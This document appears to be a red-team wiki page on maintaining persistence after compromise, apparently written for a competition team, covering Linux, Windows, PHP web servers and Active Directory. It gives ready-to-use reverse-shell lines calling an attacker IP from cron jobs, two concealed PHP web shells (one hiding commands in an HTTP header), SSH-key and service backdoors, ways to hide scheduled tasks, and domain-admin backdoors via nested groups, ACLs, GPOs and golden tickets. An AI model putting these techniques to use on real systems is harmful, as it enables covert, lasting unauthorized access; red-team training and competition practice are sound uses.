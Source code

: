 We should accomplish persistence several ways if possible, while sometimes leaving false IOCs, assisting us in [[Evasion|Evading]] detection. 
## Persistence via C2 Infrastructure

The C2 implant of choice for CU at the time of writing is [[Sliver C2]]. You can find a whole host of other options in the C2Matrix here: https://docs.google.com/spreadsheets/d/1b4mUxa6cDQuTV2BPC6aA-GR4zGZi0ooPYtBe4IgPsSc/edit#gid=0. This is a publicly available resource that compares C2 infrastructures against each other. If evasion becomes an absolute necessity in the future, or Sliver's feature count becomes insufficient, the author recommends rolling a custom [[Mythic]] agent, or building our own custom C2 infrastructure using existing techniques.

[[MSFVenom]] also contains functionality for binding malware to legitimate executables. However, this must be done in conjunction with [[Evasion]] as all MSFVenom payloads and TTPs are well signatured. 

## Persistence via LOL (Living off the Land)
#### Linux
- Install and enable new service
- Malicious user acct
###### Cron jobs: 
- Put a reverse shell in a cron job. This is the classic reverse shell string: 
  `/bin/bash -i > /dev/tcp/<attacker-IP>/<port> 0<&1 2>&1`
- If the victim machine has the traditional version of netcat installed, then this would work as well: `nc -e /bin/bash <ATTACKER_IP> <PORT>`
These are all the places you can hide cron jobs:
- `/var/spool/cron/crontabs/` — per-user cron jobs
- `/etc/crontab` — system crontab file, this will have references to all the other system crontab files below
- `/etc/cron.d/`
- `/etc/cron.hourly/`
- `/etc/cron.daily/`
- `/etc/cron.weekly/`
- `/etc/cron.monthly/`
###### SSH Keys:
- If you don't have an SSH key, generate one with `ssh-keygen`. 
- Add your public key to the `~/.ssh/authorized_keys` file in every user's directory. Create the file if it isn't already present, then add a new line in the file and put your public key there.
- Set the permissions on the file and directory by running `chmod 700 ~/.ssh` and 
  `chmod 600 ~/.ssh/authorized_keys`

#### Windows
- Registry Run Keys
- Scheduled Tasks
	- Can delete attribute SD from task at HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Schedule\\Tree\\\<TASK\> to hide the running task from `schtasks`.
- Startup Folder
- Malicious user acct
	- Administrator User
		- If NOT:
			- Backup Operators && Remote Management Users member can export HKLM\\system and HKLM\\sam to PTH with [[Evil-WinRM]]. This can also be accomplished by editing config.inf with [[secedit]] directly and adding the user to privileged groups and assigning privileges to the user directly via the GUI. This prevents the new groups from appearing in a user summary. TODO: Finish this with more details
- DLL Hijacking
- Poisoning Shortcuts
- Backdoor Applications
	- [[MSFVenom]] has functionality for this.
- Replace Default Applications for File types
	- HKEY_CLASSES_ROOT???
- Malicious Services
	- Replace the binPath property of an existing Windows service with your implant to avoid creating a new service. Simple commands can also be used as binPath, meaning `net user redteam password /add` is permissible. If you plan to use an implant as a service make sure to compile as `exe-service` with [[MSFVenom]].


#### PHP (Web Servers)
###### PHP Command Parameter
If you find a web server that uses PHP, put this code snippet somewhere in the PHP page. Then, you'll be able to send commands to the website via GET and POST requests.
```php
<?php  
if (isset($_REQUEST['cmd'])) {  
echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";  
}  
?>
```
Command execution example: `http://example.com/webscript.php?cmd=ls` (this uses a GET request, which is less stealthy than using a POST request.)

Alternatively, you could use the following code to achieve the same effect, but using HTTP headers instead. (This option is stealthier than GET or POST requests.)
``` PHP
<?php  
if (isset($_SERVER['HTTP_CMD'])) {  
echo "<pre>" . shell_exec($_SERVER['HTTP_CMD']) . "</pre>";  
}  
?>
```
Command execution example: `curl -H "CMD: ls" http://example.com/webscript.php`
- This method sends the commands via a custom HTTP header. HTTP headers often aren't displayed in logs, so it's quite stealthy. 
###### Stealing PHP Sessions
- This is basically session hijacking, but with PHP. 
- Some web servers write their session IDs to disk. When a web server does that, you can go find the file that contains the session IDs and use them to log in as an authorized user. 
- These might not be good for long-term persistence since sessions expire, but it's worth noting nonetheless. 
- PHP web servers sometimes store their session IDs in `var/lib/php/sessions`. The session file naming format is `sess_<SESSION_ID>`. 
- To conduct this attack, steal a session ID and change your `PHPSESSID` cookie to it (in "inspect element" or a similar browser tool) to hijack the session and login as an authorized user.
>[!tip] Troubleshooting Tip
>If you can't find the session IDs in `var/lib/php/sessions`, they could still be on disk somewhere. PHP has a configuration text file called `php.ini` that's generally located in `/etc/php.ini` or `/usr/local/lib/php.ini`, so check the `php.ini` config file to see if the session IDs are stored elsewhere.
## Domain Persistence
### Credentials
You can acquire hashes of users using [[Mimikatz]]'s DCSync functionality for every user. This will grant access to the krbtgt account for golden tickets, etc. 

### Tickets
Golden and Silver Tickets are incredibly useful, and will grant persistence as well. The are generated most easily with [[Rubeus]] and [[Mimikatz]]. 

### Certificates

> [!error] Danger
> If you are generating a CA to have persistence, you are making blue team rebuild the domain to get you out. Only do this in nation-state sims and competitions where the domain does NOT have to be reused. In a penetration test, this is so far overkill you will not be invited back. 

[[Mimikatz]]

### SID History
SID History is used to facilitate transferring permissions from one domain to another for a user group. Therefore, if we artificially install the DA SID into our account we will maintain the DA privileges we had "before".
### Group Membership
Nested groups are hard to monitor. Since we have DA, we should make some. Example commands are from THM. 

```powershell
New-ADGroup -Path "OU=<some OU>,OU=<some OU>,DC=za,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 1" -SamAccountName "<username>_nestgroup1" -DisplayName "<username> Nest Group 1" -GroupScope Global -GroupCategory Security
```

```powershell
New-ADGroup -Path "OU=SALES,OU=People,DC=ZA,DC=TRYHACKME,DC=LOC" -Name "<username> Net Group 2" -SamAccountName "<username>_nestgroup2" -DisplayName "<username> Nest Group 2" -GroupScope Global -GroupCategory Security 
PS C:\Users\Administrator.ZA>Add-ADGroupMember -Identity "<username>_nestgroup2" -Members "<username>_nestgroup1"
```

```powershell
Add-ADGroupMember -Identity "Domain Admins" -Members "<username>_nestgroup5"
Add-ADGroupMember -Identity "<username>_nestgroup1" -Members "<low privileged username>"
```

### ACLs
If we add ourselves to the template pushed out by the SDProp service every hour, even if blue team flushes us out, we can still reacquire access every time there is a push. Especially if we grant "Full Control" to Domain Users and maintain control over some low-privileged accounts, we can add ourselves to DA anytime we please. 

### GPO
We can create a GPO inside of the Admins group to run our C2 infra as an Administrator. If we set it to be Enforced, we can ensure it runs even if there are conflicting policies. We can add our shell or C2 to the logon scripts for admin users ensuring we get a callback every time they log into their machines. Lastly, we can remove edit permissions on a policy from even the Enterprise Admins, so a network reset will have to be performed to get us out. 
